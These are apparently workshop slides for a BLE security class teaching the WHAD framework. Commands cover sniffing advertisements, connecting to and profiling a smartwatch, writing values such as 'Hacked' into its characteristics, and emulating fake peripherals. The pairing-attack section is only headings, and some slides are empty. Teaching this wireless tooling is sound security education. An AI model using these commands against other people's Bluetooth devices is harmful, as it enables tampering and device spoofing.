<!-- _paginate: skip -->

<style>

img[alt~="center"] {
  display: block;
  margin: 0 auto;
}
</style>

# BLE Hacking 101 with WHAD

##### Romain Cayre, Damien Cauquil 


---

# Who are we ? 

**Romain Cayre**, EURECOM
  - maintainer of *Mirage*, a popular BLE swiss-army tool
  - loves *cross-protocol attacks* (*Wazabee*)

##

**Damien Cauquil**, Quarkslab
  - maintainer of *Btlejack*, another BLE swiss-army tool
  - loves reversing stuff, including *embedded systems*

---

# Agenda

- **What is WHAD ?**
- **Discovering BLE devices**
- **Interacting with a BLE device**
- **Creating fake BLE devices**
- **Breaking BLE legacy pairing**
- **Python scripting**


---

# Workshop goals

- Introduce WHAD, present its features and why it’s cool !
- Demonstrate the basic BLE tools to:
  - handle WHAD interfaces
  - discover BLE devices
  - interact with BLE devices
  - emulate fake BLE devices
- Teach simple Python scripting with WHAD
- Let you experiment with the framework and tools
---

<!-- _class: chapter -->

# What is WHAD ?

---

# A tool for everyone 


---

# Global overview

<h4> WHAD includes:</h4> 
<ul style="font-size:0.8em">
  <li> An harmonised Host / RF Hardware communication protocol</li>
  <li> A python library handling multiple wireless protocols</li>
    <li> Multiple user-friendly CLI tools that can be chained together</li>
  <li> A set of firmwares for various hardware devices</li>

</ul>




---

# Core concepts


<ul>
  <li> Offload complexity as much as possible
    <ul style="font-size:0.6em">
      <li>Protocol stacks implemented on host side</li>
      <li><strong>Hardware does hardware stuff:</strong> timing-critical tasks, RF</li>
    </ul>
  </li>
</ul>

---

# Core concepts


<ul>
  <li> Generic tools to perform generic tasks/attacks
    <ul style="font-size:0.6em">
      <li>Tools work on multiple protocols</li>
      <li>Some attacks are basically carried out almost the same way no matter the protocol: <br/><strong> → based on primitives infered from our systematization of wireless attacks</strong> </li>
    <li>Common and standardized file format (PCAP) </li>
    <li>Generic tools can be chained to create complex tools (inspired by UNIX philosophy)</li>
  </ul>
  </li>


---

# Core concepts



<ul>
  <li> Compatible hardware
        <ul style="font-size:0.6em">
      <li>Hardware is discoverable and exposes its capabilities </li>
      <li>Generic and custom tools can tune attacks/tasks to hardware </li>
      <li>Anyone can develop a compatible firmware <strong>without bothering about tools</strong> </li>
    </ul>
  </li>
</ul>

---

# Supported protocols



---

# WHAD protocol



---

# Connectors and interfaces



---

# Tool chaining




---

# Python scripting

<ul style="font-size:0.8em"><li>WHAD provides an user-friendly Python API to implement your own custom scripts</li></ul>


---

## Setup
---

# Hardware requirements

<ul style="font-size:0.8em">
<li> Computer or VM running a <strong>Linux</strong> operating system</li>
<li> nRF52 USB Dongle with <strong>ButteRFly</strong> installed</li>
<li> USB Bluetooth Low Energy <strong>dongle</strong> or <strong>embedded Bluetooth adapter</strong></li>
</ul>


---

# Resources

- Online repository with examples and code templates:
[https://github.com/whad-team/whad-workshop](https://github.com/whad-team/whad-workshop)


- Virtual machine image:
[https://drive.google.com/file/d/10wKAWlcy5zyRrwxYV8BikEAq5SCYjIOP/view?usp=sharing](https://drive.google.com/file/d/10wKAWlcy5zyRrwxYV8BikEAq5SCYjIOP/view?usp=sharing)

---

# Instaling WHAD locally

- Installing whad-client is as simple as running:
```
$ mkdir whad-workshop && cd whad-workshop
$ python3 -m venv venv
$ source venv/bin/activate
(venv) $ pip install whad
(venv) $ winstall --rules all
```
---

# Flashing ButteRFly firmware
<br />
<ul style="font-size:0.8em">
<li>
Set the dongle in <b>programming mode</b> by pressing the side button <i>RESET</i>:

</li>
<li> Run the following command:
<pre>
<code> $ winstall --flash butterfly
</code>
</pre>

</ul>

---

# WHAD interfaces

<ul style="font-size:1em">
<li> <code>wup</code> / <code>whadup</code> is the easiest way to detect compatible interfaces on your system !
  
<ul style="font-size:0.8em">
<li>Automatically detect compatible interfaces (USB and internal)</li>
<li>Query any interface to determine its capabilities</li>
<li>Show capabilities and explain what the device is capable of</li></ul>
</ul>

- List available interfaces:
```
$ wup
```
- Display the capabilities of a specific interface *"uart0"*:
```
$ wup uart0
```
---

# WHAD interfaces



---

# whadup / wup


<div style="width:80%;position:absolute; top:100px; left:200px;">
Use <code>wup</code> / <code>whadup</code> to discover the capabilities and available commands of your nRF52840 dongle 


</div>

---

<!-- _class: lead -->

## Discovering BLE devices

---

# BLE device advertisements

- Two types of PDU sent by BLE devices:
    - **Advertisement PDUs**: *ADV_IND*, *ADV_DIRECT_IND*, *ADV_NONCONN_IND*, etc...
    - **Scan-related PDUs** (active mode): *SCAN_REQ* and *SCAN_RSP*

- Advertisement and Scan PDUs are sent (at least) on **advertising channels** (**37**, **38**, **39**)

---

# Sniffing advertising PDUs

- `wsniff` provides a dedicated mode when domain is set to **ble**:

```bash
$ wsniff -i uart0 ble -a
```

The `-a` option enables *wsniff*'s BLE advertisement sniffing mode.

**It listens on channel 37 by default**, but you can specify another with the `-c / --channel` option.

**Sniffing is only supported by nRF52840 dongles.**

---

# Scanning for BLE devices

- `wble-central` provides a scanning feature to discover surrounding devices:

```bash
$ wble-central -i hci0 scan
 RSSI Lvl  Type  BD Address        Extra info
[-058 dBm] [PUB] 2c:be:eb:XX:XX:XX 
[-076 dBm] [RND] f2:ea:48:d1:48:c9 name:"ZeFit4 HR#17757"
[-058 dBm] [PUB] a4:c1:38:XX:XX:XX name:"8eyvxxxx"
[-064 dBm] [PUB] d0:d0:03:XX:XX:XX
```

- Unlike sniffing, scanning loops on every advertising channel

---

# Profiling BLE devices

- Some devices expose a **GATT server** with a set of **services** and **characteristics**

- *GATT enumeration procedure* discovers services and characteristics for a specific device but:
    - It may be <u>slow</u> depending on the target device
    - Performed **multiple times** when required by different tools

- WHAD can **save a BLE device's GATT profile into a JSON file**

- This file can then be used to **skip GATT enumeration**

---

# Profiling BLE devices

- `wble-central` provides a specific `profile` command to connect to a specific device and save its *profile* to a JSON file:

```bash
$ wble-central -i hci0 -b f2:ea:48:d1:48:c9 -r profile my_device.json
```

`-r` option is mandatory when dealing with a device that uses a *random* BD address

---

# BLE profile example

```json
{
    "services": [
        {"uuid": "1800", "type_uuid": "2800", "start_handle": 1, "end_handle": 7, "characteristics": [...]},
        {"uuid": "1801", "type_uuid": "2800", "start_handle": 8, "end_handle": 8, "characteristics": []},
        {"uuid": "6006", "type_uuid": "2800", "start_handle": 9, "end_handle": 14, "characteristics": [...]},
        {"uuid": "7006", "type_uuid": "2800", "start_handle": 15, "end_handle": 20, "characteristics": [...]},
        {"uuid": "180D", "type_uuid": "2800", "start_handle": 21, "end_handle": 65535, "characteristics": [...]},
    ],
    "devinfo": {
        "adv_data": "10095...",
        "bd_addr": "f2:ea:48:d1:48:c9",
        "addr_type": 1,
        "scan_rsp": ""
    }
}
```

---

<!-- _class: lead -->

# Interacting with BLE devices

---

# `wble-central` interactive mode

- Provides a set of commands to:
  - scan for BLE devices
  - connect to a BLE device
  - enumerate its GATT profile
  - interact with its exposed characteristics

- To use it, simply run:

```bash
$ wble-central -i hci0
```

---

# Scanning and connecting to a device

```bash
wble-central> scan
 RSSI Lvl  Type  BD Address        Extra info
[-078 dBm] [RND] f2:ea:48:d1:48:c9 name:"ZeFit4 HR#17757"
```

```bash
wble-central> connect f2:ea:48:d1:48:c9
```

- Successful connection:

```
Successfully connected to target f2:ea:48:d1:48:c9
wble-central|f2:ea:48:d1:48:c9>
```

---

# GATT enumeration

- Once connected, use the `profile` command:

```bash
wble-central|f2:ea:48:d1:48:c9> profile
```

```bash
Service Generic Access (0x1800)

 Device Name (0x2A00) handle: 2, value handle: 3
  | access rights: read, write

...
```

GATT enumeration is **required to use UUIDs** in future operations.

---

# Reading a characteristic's value

- Use the `read` command with the characteristic's UUID:

```bash
wble-central|f2:ea:48:d1:48:c9> read 2a00
```

```bash
00000000: 5A 65 46 69 74 34 20 48  52 23 31 37 37 35 37     ZeFit4 HR#17757
```

- Use the `read` command with the characteristic's value handle (3):

```bash
wble-central|f2:ea:48:d1:48:c9>read 3
```

---

# Writing to a characteristic's value

- Use the `write` command with the characteristic's UUID:

```bash
wble-central|f2:ea:48:d1:48:c9> write 2A00 "Hello"
```

- Use the `write` command with the characteristic's value handle:

```bash
wble-central|f2:ea:48:d1:48:c9> write 3 "Hello"
```

- Write data in hex ("ABCD"):

```bash
wble-central|f2:ea:48:d1:48:c9> write 2A00 hex 41 42 43 44
```

---

# Writing to a characteristic's value

- Try to write into a non-writeable characteristic's value:

```bash
wble-central|f2:ea:48:d1:48:c9> >write 19 "Hello"
[!] ATT error: write operation not allowed
```

- Write without waiting a response with `write-cmd`:

```bash
wble-central|f2:ea:48:d1:48:c9> writecmd 3 "Hacked"
```

---

# Subscribing to notifications

- Use the `sub` command with the characteristic's UUID:

```bash
wble-central|f2:ea:48:d1:48:c9> sub 2a37
```

- or with the characteristic's handle:

```bash
wble-central|f2:ea:48:d1:48:c9> sub 22
```

---

# Real-time monitoring

- Use the `wireshark` command to start a live wireshark monitor:

```bash
wble-central|f2:ea:48:d1:48:c9> wireshark on
```

- Run a `profile` command and let the magic happens



---
<!-- _class: lead -->

# Scripting with WHAD, a primer

---

# Scripting with WHAD

- WHAD's interactive shell supports scripting **by default**

- Scripting is useful when:
  - Some devices expect to receive data **in a short time window**
  - you want to **automate** one or more tasks/attacks

- Scripts are **simple text files** with *.whad* extension
  - commands are executed one after the other
  - basic scripting language

--- 

# Manipulating the environment

- WHAD interactive shells use a dedicated *environment* to create, store and recall **variables**

- To create a variable: `set NAME VALUE`

```bash
set TARGET "f2:ea:48:d1:48:c9"
```

- To use a variable: `$VAR_NAME`

```sh
connect $TARGET
```

---

# Manipulating the environment

- To delete a variable: `unset VAR_NAME`

```bash
unset TARGET
```

- To list current environment: `env`

```bash
wble-central> env
TOTO=tralala
TARGET=f2:ea:48:d1:48:c9
```

---

# Some useful scripting commands

- To print some text or value: `echo TEXT`

```bash
echo "Connecting to " $TARGET
```

- Wait for the user to press a key: `wait MESSAGE`

```bash
wait "Press a key to disconnect from target"
```

---

# Scripting with `wble-central`

- Quick whad script to connect to a target (*example.whad*):

```sh
set TARGET "f2:ea:48:d1:48:c9"
echo "Connecting to " $TARGET "..."
connect $TARGET random
```

- Run script with `wble-central`, using the `-f` option:

```bash
$ wble-central -i hci0 -f ./example.whad
```

---

# Hands-on

- Write a script that connects to your watch and:
  - discovers its services and characteristics
  - read the *DeviceName* characteristic from its *Generic Access* service and prints it
  - writes "0wn3d" into the same *DeviceName* characteristic value
  - disconnects properly from the device

---

# Hands-on

1. Export your watch GATT profile into a JSON file using `wble-central`

2. Modify the previous script to load this JSON file using the interactive shell's `profile` command

3. Verify that this new script runs much faster


---

<!-- _class: lead -->
# Creating fake BLE devices

---

# `wble-periph` interactive mode

- Provides a **set of commands** to:
  - configure the device's advertising data
  - create GATT services and characteristics
  - modify characteristics's properties and values
  - start and stop advertising

- **Displays every client GATT operation** in real-time

- Allows user to **modify characteristics's values** even when a GATT client is connected !

---

# Creating a fake peripheral by hand

- Start `wble-periph` in interactive mode:

```bash
$ wble-periph -i hci0
```

- Use the `name` command to set the device name:

```bash
wble-periph> name "EmulatedDevice"
```

- Add a *Generic Access* service using the `service` command:

```bash
wble-periph> service add 1800
```

---

# Creating an emulated peripheral by hand

- Create a *Device Name* characteristic using the `char` command:

```bash
wble-periph|service(1800)> char add 2a00 read write notify
```

This characteristic is declared as <u>readable</u>, <u>writeable</u> and supports <u>notifications</u>.

- Set the characteristic value with `write`:

```bash
wble-periph|service(1800)> write 2a00 "EmulatedDevice"
```

---

# Check your emulated device's GATT profile

- Use the `back` command to exit GATT service edition mode

```bash
wble-periph|service(1800)> back
```

- Use the `service` command to print the current GATT profile:

```
wble-periph> service

Service 1800 (Generic Access) (handles from 1 to 4):
└─ Characteristic 2a00 (Device Name)
  └─ handle:2, value handle: 3, props: read,write,notify
  └─ Descriptor 2902 (handle: 4)
```

---

# Start advertising your emulated device

- Use the `start` command to tell `wble-periph` to start advertising:

```
wble-periph> start
```

When the emulated device is advertising, no more changes can be made to the GATT profile configured previously.

---

# Connect to your emulated device

- Using *nRF Connect*, connect to your emulated device and read its *Device Name* characteristic

- `wble-periph` should display something like:

```
wble-periph> start
New connection handle:24
Reading characteristic 2a00 of service 1800
 00000000: 46 61 6B 65 44 65 76 69  63 65                    FakeDevice
```

---

# Notifications

- Subscribe to notifications for the *Device Name* characteristic

- Use the `write` command to update the characteristic's value:

```
wble-periph[running]> write 2a00 "EmulatedDevice!"
```

- Notice the value has changed in *nRF Connect*

---

# Monitoring with Wireshark

- Use the `wireshark` command to spawn Wireshark and monitor live GATT operations:

```
wble-periph[running]> wireshark on
```

---

<!-- _class: lead -->
# Scripting `wble-periph`

---

# Real-time monitoring

---

# Dumping traffic to a PCAP

---

# Use a saved GATT profile

---

# 

---

## Breaking BLE legacy pairing

---

# BLE pairing vs bonding

- Bluetooth Low Energy **pairing** allows to negotiate security keys (e.g., encryption) to encrypt and authenticate the link

- Bluetooth Low Energy **bonding** is a variant of BLE pairing where the devices will store the distributed keys for later use

---

# BLE pairing overview


---

# Legacy pairing - passkey entry

